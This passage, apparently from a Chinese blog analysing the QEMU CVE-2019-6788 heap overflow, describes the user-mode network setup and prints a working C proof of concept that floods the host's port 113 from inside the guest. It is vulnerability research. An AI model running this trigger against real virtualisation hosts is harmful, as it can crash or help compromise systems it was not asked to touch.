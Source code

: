 漏洞需要在user模式下启动虚拟机，启动虚拟机后虚拟机的ip为`10.0.2.15`，宿主机ip为`10.0.2.2`。虽然在主机中`ifconfig`看不到该ip，但确实是可以连通的。可以从qemu虚拟机中ping主机，无法从主机ping虚拟机。

![user_mode_network](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2020-03-29-qemu-pwn-cve-2019-6788堆溢出漏洞分析/user_mode_network.png)

poc代码如下，将其编译好并拷贝至虚拟机中：

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main() {
    int s, ret;
    struct sockaddr_in ip_addr;
    char buf[0x500];

    s = socket(AF_INET, SOCK_STREAM, 0);
    ip_addr.sin_family = AF_INET;
    ip_addr.sin_addr.s_addr = inet_addr("10.0.2.2"); // host IP
    ip_addr.sin_port = htons(113);                   // vulnerable port
    ret = connect(s, (struct sockaddr *)&ip_addr, sizeof(struct sockaddr_in));
    memset(buf, 'A', 0x500);
    while (1) {
        write(s, buf, 0x500);
    }
    return 0;
}
```
